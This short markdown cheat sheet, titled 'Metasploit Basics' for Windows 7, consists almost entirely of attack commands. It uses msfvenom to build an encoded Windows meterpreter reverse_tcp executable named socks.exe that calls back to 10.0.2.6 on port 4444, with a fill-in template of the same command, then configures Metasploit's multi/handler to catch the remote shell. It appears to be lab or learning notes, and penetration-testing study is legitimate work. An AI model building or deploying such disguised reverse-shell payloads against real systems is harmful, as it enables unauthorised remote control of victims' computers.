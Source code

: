 # Metasploit Basics #
OS Windows 7
- - - - 
1. Create the .exe with Venom


     msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
     msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}


2. On metasploit 


     use exploit/multi/handler
     set payload windows/meterpreter/reverse_tcp

